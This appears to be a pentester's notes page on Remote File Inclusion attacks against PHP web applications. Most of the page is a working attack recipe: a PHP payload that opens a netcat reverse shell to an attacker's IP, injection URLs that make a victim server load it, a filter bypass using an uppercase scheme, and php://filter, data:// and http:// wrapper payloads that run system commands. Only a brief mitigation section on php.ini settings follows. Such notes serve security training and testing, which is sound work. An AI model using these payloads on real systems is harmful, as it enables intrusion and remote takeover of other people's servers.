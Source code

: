 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# RFI attack - Remote File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).


## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

## Wrappers

### PHP wrapper

php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://IPdomain/rfi.php?language=php://filter/convert.base64-encode/resource=recurso.php
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

```
http://IPdomain/rfi.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```

## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 